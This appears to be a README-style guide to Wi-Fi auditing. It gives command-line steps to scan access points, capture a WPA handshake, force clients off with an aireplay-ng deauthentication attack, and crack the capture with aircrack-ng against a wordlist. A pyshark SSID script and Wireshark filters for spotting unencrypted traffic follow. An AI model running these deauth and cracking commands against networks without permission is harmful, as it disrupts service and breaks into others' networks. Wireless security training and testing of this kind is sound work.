 
## 🔧 Audit Workflow

### Step 1: Scan for APs using airodump-ng
```bash
sudo airodump-ng wlan0mon
```

### Step 2: Target one AP and capture handshake
```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon
```

### Step 3: Optional Deauth to force handshake
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

### Step 4: Analyze with Wireshark
- Open `capture.cap` in Wireshark
- Use filters: `eapol` to view handshakes

### Step 5: Crack with Aircrack-ng
```bash
aircrack-ng capture-01.cap -w /path/to/wordlist.txt
```

---

## 🐍 Python Scripts

### Extract Wi-Fi Info from pcap
```python
import pyshark
cap = pyshark.FileCapture('capture-01.cap', display_filter='wlan.fc.type_subtype == 0x08')

for pkt in cap:
    print(f"SSID: {pkt.wlan.ssid} | Signal: {pkt.radiotap.dbm_antsignal}dBm")
```

---

## 🧪 Wireshark Use Case

1. Open `capture.cap`
2. Use filters like:
   - `wlan.ssid`
   - `eapol` for handshakes
   - `http` for unsecured traffic
3. Analyze frame details to find anomalies or exposed data

---